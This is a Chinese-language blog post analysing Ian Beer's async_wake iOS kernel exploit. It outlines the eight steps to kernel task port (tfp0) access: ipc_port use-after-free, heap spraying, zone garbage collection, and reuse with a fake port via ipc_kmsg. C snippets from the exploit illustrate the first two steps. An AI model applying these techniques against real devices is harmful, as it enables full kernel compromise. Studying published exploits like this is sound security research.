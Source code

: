 ```
I use the bsdinfo->pid trick to build an arbitrary read with this (see details in async_wake.c.)

With the arbitrary read I find the kernel task's vm_map and the kernel ipc_space. I then free and reallocate the kalloc.4096 buffer replacing it with a fake
kernel task port.
```
主要方法是：  
1. 确保一整个page存储的全部是我们分配的ipc_port
2. 使用漏洞将目标ipc_port释放
3. 释放page上其他的ipc_port，使整个page处于释放状态
4. 触发gc，使得page能够跨zone被重新使用
5. 使用构造的ipc_kmsg重用page，ipc_kmsg将用fake_port填充page
6. 使用pid_for_task获得kernel task vm_map & ipc_space
7. 重新使用ipc_kmsg重用page，这次fake_port指向的fake_task包含了一个fake kernel task port
8. 获得tfp0，结束
  
下面详细介绍一下上述步骤（更多请参考async_wake_ios） 
#### 1. 确保一整个page存储的全部是我们分配的ipc_port  
作者一次性分配了100000个ipc_port：  
```C
  int n_pre_ports = 100000; //8000
  mach_port_t* pre_ports = prepare_ports(n_pre_ports);
```
这样消耗了足够的ipc zone空间里的free entry，然后必然要申请page来存放新的ipc_port，从而保证了一定有page上全是新分配的ipc_port。  
![ipc_port_page]({{site.url}}{{site.baseurl}}/res/ipc_port_page.png)  
   
#### 2. 使用漏洞将目标ipc_port释放  
首先需要知道什么是目标ipc_port？Ian Beer在源码中的描述如下：  
```C
  // now find a suitable port
  // we'll replace the port with an ipc_kmsg buffer containing controlled data, but we don't
  // completely control all the data:
  // specifically we're targetting kalloc.4096 but the message body will only span
  // xxx448 -> xxxfbc so we want to make sure the port we target is within that range
  // actually, since we're also putting a fake task struct here and want
  // the task's bsd_info pointer to overlap with the ip_context field we need a stricter range
```
这里的目标主要是和作者的exploit方法有关，后文会提到作者使用了ipc_kmsg这种方法分配并填充内核内存，这种方法的缺点是，不能完整控制整个page，毕竟其还包括一些header和tailer的部分，真正受控的部分是body部分。所以为了能使用ipc_kmsg复用ipc_port内存，我们需要找到能落到body部分的ipc_port。作者的搜索条件是xxx448 -> xxxfbc,实际因为exploit的时候，在fake_port前面还要放置fake_task，所以实际搜索条件还要更严格一些，作者在源码中用的是xxxa00 -> xxxe80:  
```C
  for (int i = 0; i < ports_to_test; i++) {
    mach_port_t candidate_port = pre_ports[base+i];
    uint64_t candidate_address = find_port_address(candidate_port, MACH_MSG_TYPE_MAKE_SEND);
    uint64_t page_offset = candidate_address & 0xfff;
    if (page_offset > 0xa00 && page_offset < 0xe80) { // this range could be wider but there's no need
      printf("found target port with suitable allocation page offset: 0x%016llx\n", candidate_address);
      pre_ports[base+i] = MACH_PORT_NULL;
      first_port = candidate_port;
      first_port_address = candidate_address;
      break;
    }
  }
```
至于如何获得ipc_port的内核地址，作者这里使用的是heap泄漏的漏洞，用ool_ports的方法找到指定的port内核地址，具体可以参考函数`find_port_address`。  
![target_ipc_port_page]({{site.url}}{{site.baseurl}}/res/target_ipc_port_page.png)  
  